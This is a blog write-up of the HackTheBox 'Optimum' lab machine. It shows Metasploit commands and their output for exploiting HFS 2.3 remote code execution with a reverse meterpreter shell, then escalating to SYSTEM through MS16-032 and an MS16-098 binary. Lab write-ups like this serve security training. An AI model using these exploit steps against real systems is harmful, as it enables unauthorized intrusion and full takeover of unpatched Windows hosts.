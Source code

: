 ```yaml
---
layout: post
title:  "HackTheBox - Optimum"
date:   2017-12-25 00:00:00 +0100
categories: hackthebox
image:
  feature: optimum.jpg
  credit:
  creditlink:
---
```


This post describes multiple attacks upon the Optimum box on [hackthebox.eu](http://hackthebox.eu).  

Introduction
==========
This is a particularly interesting box.  Getting a shell is easy, perhaps one of the easiest on the site, but escalating evades a number of people, despite, in theory, also being very easy.  Originally, I cracked this box in a non-intended manner, so there are multiple ways of achieving the same result.  What you should take away from this box is that the details are important and you can't let exploit kits do all the heavy lifting for you.  With that out of the way, lets get onto the exploitation.
	

Enumeration
=====
```bash
PORT   STATE SERVICE    VERSION
80/tcp open  tcpwrapped
|_http-server-header: HFS 2.3
|_http-title: HFS /
```

So this gives us one service, a HFS file server.  A quick search reveals that this version, v2.3, is in fact vulnerable to [remote code execution](https://www.exploit-db.com/exploits/39161/).  That's pretty handy, so we can likely get a shell very quickly.  A further search reveals that this version also has a [metasploit module](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec) for it, so we can get a meterpreter shell even easier, and considering it's a windows box, that's a life-saver (I'll kick the habit some day I swear!!).  So let's run the module and have a look around.

```bash
msf exploit(rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                       yes       The target address
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```
There doesn't appear to be much we need to set here bar the RHOST.  We're assuming from nmap that the TARGETURI is simply /, and it doesn't take more than a quick run to confirm this.

```bash
msf exploit(rejetto_hfs_exec) > set RHOST 10.10.10.8
RHOST => 10.10.10.8

msf exploit(rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.13.202:4444 
[*] Using URL: http://0.0.0.0:8080/HathpeeW54bHa75
[*] Local IP: http://192.168.117.130:8080/HathpeeW54bHa75
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /HathpeeW54bHa75
[*] Sending stage (957487 bytes) to 10.10.10.8
[*] Meterpreter session 1 opened (10.10.13.202:4444 -> 10.10.10.8:49189) at 2017-05-18 18:02:39 +0100
```

Boom we have a shell!  Now lets escalate!

Privilege Escalation - Method 1
=======
I spent a lot of time rooting (hehehehe) around on this box, but came to the conclusion that it absolutely had to be vulnerable to [MS16-032](https://www.rapid7.com/db/modules/exploit/windows/local/ms16_032_secondary_logon_handle_privesc), but couldn't for the life of me get it to work.  The device wasn't patched recently, and the exploit was famous for being fairly consistently, so in my head it had to work.  I tried the [powershell exploit](https://www.exploit-db.com/exploits/39719/) and the [metasploit one](https://www.rapid7.com/db/modules/exploit/windows/local/ms16_032_secondary_logon_handle_privesc), but nothing gave me a shell.  Hindsight is 20/20, and while I initially exploited it via the second, it's a good idea to see how both methods work.

Exploiting the metasploit module requires a number of different options set.  Firstly, we need to ensure we have a 64 bit meterpreter.  We can just set this before we run the rejetto hfs exploit to give us a shell.

```
msf exploit(rejetto_hfs_exec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
```
So now we absolutely have an x64 based shell, after some enumeration using systeminfo and `post/multi/recon/local_exploit_suggester`, we discover that the machine is vulnerable to [MS16-032](https://www.rapid7.com/db/modules/exploit/windows/local/ms16_032_secondary_logon_handle_privesc).  So lets background the shell and load up this module.

```
meterpreter > background 
[*] Backgrounding session 2...
msf exploit(rejetto_hfs_exec) > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
msf exploit(ms16_032_secondary_logon_handle_privesc) > show options

Module options (exploit/windows/local/ms16_032_secondary_logon_handle_privesc):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Windows x86


msf exploit(ms16_032_secondary_logon_handle_privesc) > set SESSION 2
SESSION => 2
msf exploit(ms16_032_secondary_logon_handle_privesc) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Windows x86
   1   Windows x64
```

From this, we see that the machine has two targets, one for x86 and one for x64.  Since, obviously, we're targeting an x64 based machine we need to select the correct target.

```bash
msf exploit(ms16_032_secondary_logon_handle_privesc) > set target 1
target => 1
```

So now we just run the exploit the exploit and we'll pop a system shell.

Privilege Escalation - Method 2
=====
An absolutely fantastic tool is windows-exploit-suggester.  It takes the list of patches output by systeminfo, and compares this to a database of microsoft patches, attempting to supply a list of exploits to target the machine.  This is an inefficient method, but at the time whilst desperately searching for an exploit, it gave me a way of more effectively targeting my search.  

Run `systeminfo` in a shell on the remote pc, and save it in a file called 'systeminfo.txt' on your local machine.

```bash
root@kali:~/Windows-Exploit-Suggester-master# python windows-exploit-suggester.py --database 2017-05-25-mssb.xls --systeminfo systeminfo.txt 
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 32 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits
[*] there are now 246 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2012 R2 64-bit'
[*] 
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
[*]   https://github.com/tinysec/public/tree/master/CVE-2016-7255
[*] 
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
[E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
[M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) - Critical
-- SNIP---
[*] done
```

The method I used here probably isn't as applicable to real-world as I'd want, considering a couple of these crashed Optimum but gave me no shell.  But luckily, very shortly down the list, is MS16-098, which gave me a shell, and them promptly crashed the box once I exited.  So nowhere near as stable as MS16-032 but another entry point into the box.

Exploiting this was simply a matter of downloading the executable from the remote site (we probably should compile it ourselves in future), using meterpreter to upload and then running the executable.

```bash
C:\Users\kostas\Desktop>41020.exe
41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system
```
